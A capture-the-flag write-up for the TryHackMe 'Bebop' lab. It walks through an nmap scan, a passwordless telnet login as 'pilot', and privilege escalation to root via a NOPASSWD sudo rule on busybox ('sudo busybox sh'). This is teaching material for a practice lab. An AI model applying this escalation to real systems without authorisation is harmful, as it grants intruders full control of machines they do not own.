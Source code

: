```yaml
---
title: "TryHackMe - Bebop"
author: Nasrallah
description: ""
date: 2023-01-07 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, sudo, telnet]
img_path: /assets/img/tryhackme/
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Bebop](https://tryhackme.com/room/bebop) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.63.34
Host is up (0.099s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

```

We found two open ports, 22/tcp running OpenSSH and 23/tcp running telnetd on FreeBSD OS.

# **Foothold**

At the first task we were given codename **pilot**, so let's try connecting to telnet using that name.

```bash
$ telnet 10.10.63.34
Trying 10.10.63.34...
Connected to 10.10.63.34.
Escape character is '^]'.
login: pilot
Last login: Sun Dec 25 10:29:02 from ip-10-11-14-124.eu-west-1.compute.internal
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to quickly return to your home directory? Type "cd".
                -- Dru <genesis@istar.ca>
[pilot@freebsd ~]$ 

```

Great! We got the initial shell.

# **Privilege Escalation**

Let's check out privileges with `sudo -l`.

```bash
[pilot@freebsd ~]$ sudo -l
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
```

We can run `busybox` as root.

Checking busybox on [GTFOBins](https://gtfobins.github.io/gtfobins/busybox/#sudo), we see that we can run `sudo busybox sh` and get root.

```terminal
[pilot@freebsd ~]$ sudo busybox sh
# whoami
root
# id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)

```

Nice, we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
